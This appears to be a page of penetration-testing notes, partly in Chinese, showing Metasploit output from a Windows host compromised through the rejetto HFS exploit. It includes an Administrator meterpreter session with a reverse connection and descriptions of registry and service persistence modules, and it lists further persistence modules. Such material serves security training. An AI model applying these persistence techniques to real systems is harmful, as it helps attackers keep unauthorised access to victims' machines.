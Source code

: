 ```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/rejetto_hfs_exec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x64/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.2:4444 -> 10.0.30.12:49239 (10.0.30.12)

```

[Windows Persistent Registry Startup Payload Installer](https://www.rapid7.com/db/modules/exploit/windows/local/persistence/)

This module will install a payload that is executed during boot. It will be executed either at user logon or system startup via the registry value in "CurrentVersion\Run" (depending on privilege and selected method).

Windows 持久注册表启动负载安装程序

该模块将安装在引导期间执行的有效负载。它将在用户登录或系统启动时通过“CurrentVersion\Run”中的注册表值执行（取决于权限和选择的方法）。

[Windows Persistent Service Installer](https://www.rapid7.com/db/modules/exploit/windows/local/persistence_service/)

This Module will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.

Windows 持久服务安装程序

该模块将生成可执行文件并将其上传到远程主机，接下来将使它成为持久服务。它将创建一个新服务，该服务将在服务运行时启动有效负载。需要管理员或系统权限。

```
msf6 exploit(windows/http/rejetto_hfs_exec) > search platform:windows persistence

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   0   exploit/windows/local/persistence                     2011-10-19       excellent  No     Windows Persistent Registry Startup Payload Installer
   1   exploit/windows/local/persistence_image_exec_options  2008-06-28       excellent  No     Windows Silent Process Exit Persistence
   2   exploit/windows/local/persistence_service             2018-10-20       excellent  No     Windows Persistent Service Installer
   3   exploit/windows/local/ps_wmi_exec                     2012-08-19       excellent  No     Authenticated WMI Exec via Powershell
   4   exploit/windows/local/registry_persistence            2015-07-01       excellent  Yes    Windows Registry Only Persistence
   5   exploit/windows/local/s4u_persistence                 2013-01-02       excellent  No     Windows Manage User Level Persistent Payload Installer
   6   exploit/windows/local/vss_persistence                 2011-10-21       excellent  No     Persistent Payload in Windows Volume Shadow Copy
   7   exploit/windows/local/wmi_persistence                 2017-06-06       normal     No     WMI Event Subscription Persistence
   8   post/windows/gather/enum_ad_managedby_groups                           normal     No     Windows Gather Active Directory Managed Groups
   9   post/windows/manage/persistence_exe                                    normal     No     Windows Manage Persistent EXE Payload Installer
```